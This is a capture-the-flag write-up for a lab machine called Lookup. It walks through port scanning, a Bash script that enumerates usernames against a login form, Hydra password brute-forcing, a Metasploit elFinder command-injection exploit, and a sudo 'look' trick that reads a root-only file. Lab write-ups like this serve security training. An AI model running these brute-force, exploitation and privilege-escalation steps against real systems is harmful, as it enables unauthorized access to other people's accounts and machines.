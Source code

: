 ```yaml
---
title: "Lookup Write-up"
date: 2024-11-23
draft: false
---
```


### **Lookup Write-up**  
**by Khaled Alrowaishan**  

Welcome to the Lookup adventure! This machine is packed with fun challenges to test your enumeration and exploitation skills. Along the way, we’ll tackle real-world vulnerabilities, crack some passwords, and maybe even mess with file permissions. Ready to dig in? Let’s hack like it’s 1999—minus the Y2K bug drama.

---

## **Port Scanning**
Let’s start by asking the machine, “What’s your secret?” using some port scanning magic.

##### **Masscan**
Think of this as the Usain Bolt of port scanners—it’s fast but doesn’t dive deep.

```bash
sudo masscan -p 1-65535 --interface tun0 --rate 250 10.10.247.158
```
Result: Found a few interesting ports.

##### **Nmap**
Now, let’s bring in Sherlock Holmes to investigate those ports.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p22,80 --open --min-rate=1000 10.10.247.158

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 02:25 EST
Nmap scan report for lookup.thm (10.10.247.158)
Host is up (0.33s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login Page
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Result: Found services running on the ports. Hmm... things are getting interesting.

Tip: If Masscan and Nmap were a buddy cop duo, Masscan would yell, “The thief is in that building!” and Nmap would say, “Let’s search every room for clues.”

## **Information Gathering and Enumeration**

Time to spy on the target—legally, of course!

###### **WhatWeb**
This tool is like peeking into someone’s tech shopping cart.

```bash
whatweb http://lookup.thm

http://lookup.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.247.158], PasswordField[password], Title[Login Page]
Nothing important, so I’ll use some techniques.
```
#### **Directory Enumeration**
Here’s where the real detective work begins.

##### **Gobuster**
```bash
gobuster dir --url http://lookup.thm/ --wordlist=/usr/share/dirb/wordlists/common.txt

/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 719]
/server-status        (Status: 403) [Size: 275]
```
We used Gobuster to knock on every door (URL) and see which ones open.

#### **Custom User Enumeration**

No luck with regular tools? DIY time! I wrote a simple Bash script to list potential usernames.

##### **Simple Script**

```bash
#!/bin/bash
# Define the target URL
url="http://lookup.thm/login.php"
# Define the file path containing usernames
file_path="/usr/share/seclists/Usernames/Names/names.txt"
# Check if the file exists
if [[ ! -f "$file_path" ]]; then
    echo "Error: The file $file_path does not exist."
    exit 1
fi
# Loop through each username in the wordlist
while IFS= read -r username; do
    # Skip empty lines
    if [[ -z "$username" ]]; then
        continue
    fi
    # Send POST request with fixed password
    response=$(curl -s -X POST "$url" -d "username=$username&password=password")
    # Check for specific strings in the response
    if echo "$response" | grep -q "Wrong password"; then
        echo "Username found: $username"
    elif echo "$response" | grep -q "wrong username"; then
        continue  # Silent continuation for wrong usernames
    fi
done < "$file_path"
```
After running the script, I found the users.

#### **Password Brute-Forcing**

Used Hydra to brute force the login for identified users.

```bash
hydra -l jose -P ~/Desktop/CTF/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" [80][http-post-form] host: lookup.thm login: jose password: *********
```
## **Exploitation**

Now comes the fun part—breaking in!

CMS Vulnerability

Found a CMS called ElFinder during reconnaissance.
Used Searchsploit to locate an exploit script.

```bash
searchsploit elfinder
```
Exploited the CMS using Metasploit to gain a foothold.

```bash
search elFinder
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```
### **Privilege Escalation**

Time to go from user to king of the castle!

##### **Sudo Permissions**

Found an interesting command allowed by sudo:

```bash
sudo -l
```
##### **Exploitation**

Discovered a way to use look for privilege escalation:

```bash
LFILE=/root/root.txt sudo look '' "$LFILE"
```

Got the root flag!!!

## **Conclusion**
The Lookup machine was a fantastic challenge, covering everything from enumeration to privilege escalation. By combining automated tools and manual creativity, we uncovered vulnerabilities, exploited them, and claimed the prized root flag.

